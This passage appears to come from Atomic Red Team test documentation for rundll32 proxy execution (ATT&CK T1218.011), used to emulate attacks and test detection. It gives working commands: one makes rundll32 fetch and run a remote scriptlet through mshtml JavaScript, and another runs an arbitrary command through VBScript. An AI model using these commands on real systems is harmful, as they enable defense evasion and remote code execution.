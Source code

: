 


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| file_url | location of the payload | Url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1218.011/src/T1218.011.sct|


#### Attack Commands: Run with `command_prompt`! 


```cmd
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:#{file_url}").Exec();
```






<br/>
<br/>

## Atomic Test #2 - Rundll32 execute VBscript command
Test execution of a command using rundll32.exe and VBscript in a similar manner to the JavaScript test.
Technique documented by Hexacorn- http://www.hexacorn.com/blog/2019/10/29/rundll32-with-a-vbscript-protocol/
Upon execution calc.exe will be launched

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| command_to_execute | Command for rundll32.exe to execute | string | calc.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
rundll32 vbscript:"\..\mshtml,RunHTMLApplication "+String(CreateObject("WScript.Shell").Run("#{command_to_execute}"),0)
```






<br/>
<br/>

## Atomic Test #3 - Rundll32 advpack.dll Execution
Test execution of a command using rundll32.exe with advpack.dll.
Reference: https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSLibraries/Advpack.yml
Upon execution calc.exe will be launched
